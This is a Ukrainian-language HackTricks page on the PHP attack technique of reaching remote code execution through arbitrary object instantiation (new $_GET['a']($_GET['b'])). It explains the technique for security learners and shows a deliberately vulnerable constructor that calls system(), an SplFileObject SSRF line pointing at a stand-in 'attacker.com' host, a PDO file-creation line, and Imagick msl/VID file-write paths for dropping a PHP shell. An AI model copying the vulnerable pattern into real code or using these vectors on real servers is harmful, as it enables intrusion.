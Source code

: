 # PHP - RCE зловживання створенням об'єктів: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

Це, по суті, резюме [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Вступ

Створення нових довільних об'єктів, таких як `new $_GET["a"]($_GET["a"])`, може призвести до віддаленого виконання коду (RCE), як детально описано в [**статті**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Цей документ підкреслює різні стратегії для досягнення RCE.

## RCE через користувацькі класи або автозавантаження

Синтаксис `new $a($b)` використовується для створення об'єкта, де **`$a`** представляє ім'я класу, а **`$b`** є першим аргументом, переданим конструктору. Ці змінні можуть бути отримані з введення користувача, як GET/POST, де вони можуть бути рядками або масивами, або з JSON, де вони можуть представлятися як інші типи.

Розгляньте фрагмент коду нижче:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
У цьому випадку, встановлення `$a` на `App` або `App2` і `$b` на системну команду (наприклад, `uname -a`) призводить до виконання цієї команди.

**Функції автозавантаження** можуть бути використані, якщо такі класи не є безпосередньо доступними. Ці функції автоматично завантажують класи з файлів за потреби і визначаються за допомогою `spl_autoload_register` або `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Поведение автозагрузки варіюється в залежності від версій PHP, пропонуючи різні можливості RCE.

## RCE через вбудовані класи

Відсутність користувацьких класів або автозагрузчиків, **вбудовані класи PHP** можуть бути достатніми для RCE. Кількість цих класів коливається від 100 до 200, залежно від версії PHP та розширень. Їх можна перерахувати за допомогою `get_declared_classes()`.

Конструктори, що представляють інтерес, можна ідентифікувати через API рефлексії, як показано в наступному прикладі та за посиланням [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE через специфічні методи включає:**

### **SSRF + Phar десеріалізація**

Клас `SplFileObject` дозволяє SSRF через свій конструктор, що дозволяє підключення до будь-якого URL:
```php
new SplFileObject('http://attacker.com/');
```
SSRF може призвести до атак десеріалізації в версіях PHP до 8.0, використовуючи протокол Phar.

### **Експлуатація PDO**

Конструктор класу PDO дозволяє підключення до баз даних через рядки DSN, що потенційно дозволяє створення файлів або інші взаємодії:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Версії PHP до 5.3.22 та 5.4.12 були вразливими до атак XXE через конструктори `SoapClient` та `SimpleXMLElement`, залежно від версії libxml2.

## RCE через розширення Imagick

У процесі аналізу **залежностей проєкту** було виявлено, що **Imagick** може бути використаний для **виконання команд** шляхом створення нових об'єктів. Це створює можливість для експлуатації вразливостей.

### VID парсер

Було виявлено, що можливість VID парсера записувати вміст у будь-який вказаний шлях у файловій системі. Це може призвести до розміщення PHP shell у веб-доступному каталозі, досягаючи віддаленого виконання коду (RCE).

#### VID Parser + Завантаження файлів

Зазначено, що PHP тимчасово зберігає завантажені файли в `/tmp/phpXXXXXX`. VID парсер в Imagick, використовуючи протокол **msl**, може обробляти шаблони в шляхах до файлів, що полегшує передачу тимчасового файлу до вибраного місця. Цей метод пропонує додатковий підхід для досягнення довільного запису файлів у файловій системі.

### PHP Збій + Брутфорс

Метод, описаний у [**оригінальному звіті**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/), передбачає завантаження файлів, які викликають збій сервера перед видаленням. За допомогою брутфорсу імені тимчасового файлу, Imagick може виконувати довільний PHP код. Однак цей метод виявився ефективним лише в застарілій версії ImageMagick.

## Посилання

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
